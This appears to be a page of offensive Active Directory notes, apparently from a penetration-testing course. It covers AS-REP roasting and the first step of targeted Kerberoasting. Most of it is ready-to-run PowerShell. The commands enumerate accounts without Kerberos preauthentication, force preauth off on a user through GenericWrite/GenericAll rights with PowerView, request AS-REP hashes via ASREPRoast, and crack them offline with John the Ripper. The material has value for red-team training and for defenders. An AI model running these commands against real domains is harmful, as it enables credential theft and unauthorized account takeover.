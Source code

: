 - If a user's UserAccountControl settings have **Do not require Kerberos preauthentication** enabled i.e. Kerberos preauth is disabled, its possible to grab user's crackable AS-REP and brute-force it offline
- With sufficient rights (**GenericWrite or GenericAll**), Kerberos preauth can be forced disabled as well

**Enumerating accounts with Kerberos Preauth disabled**

Using PowerView:
´´´powershell
Get-DomainUser -PreauthNotRequired -Verbose
´´´

Using ActiveDirectory module:
´´´powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
´´´

**Force disable Kerberos Preauth**:

Let's enumerate the permissions for RDPUsers on ACLs using PowerView:
´´´powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} 
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
Get-DomainUser -PreauthNotRequired -Verbose
´´´

**Request encrypted AS-REP for offline brute-force**

Let's use ASREPRoast:
´´´powershell
Get-ASREPHash -UserName VPN1user -Verbose
´´´

To enumerate all users with Kerberos preauth disabled and request a hash:
´´´powershell
Invoke-ASREPRoast -Verbose
´´´

We can use John The Ripper to brute-force the hashes offline:
´´´powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
´´´


# Targeted Kerberoasting - Set SPN

- With enough rights (**GenericAll/GenericWrite**), a target user's SPN can be set to anything (unique in the domain)
- We can then request TGS without special privileges. The TGS can then be **Kerberoasted**.

Let's enumerate the permissions for RDPUsers on ACLs using PowerView:
´´´powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
´´´
